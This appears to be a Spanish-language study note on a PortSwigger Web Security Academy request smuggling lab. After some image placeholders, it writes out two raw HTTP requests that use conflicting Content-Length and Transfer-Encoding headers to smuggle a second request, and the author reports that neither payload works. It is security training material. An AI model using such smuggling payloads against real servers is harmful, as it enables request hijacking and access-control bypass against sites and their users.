 ![[Pasted image 20230706181350.png]]

![[Pasted image 20230706181409.png]]

![[Pasted image 20230706181458.png]]

usando el payload sugerido por la respuesta oficial de Burp:

![[Pasted image 20230706181651.png]]

Estoy obteniendo un error 400:

![[Pasted image 20230706181823.png]]


probando este payload pero tampoco funciona:

POST / HTTP/1.1
Host: 0a4c00080445a55482a2e21500ca00c8.web-security-academy.net
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

5e
POST /404 HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0


LO MISMO EL SIGUIENTE PAYLOAD:

POST / HTTP/1.1
Host: 0a4c00080445a55482a2e21500ca00c8.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

9e
GET /404 HTTP/1.1
Host: 0a4c00080445a55482a2e21500ca00c8.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 144

x=
0
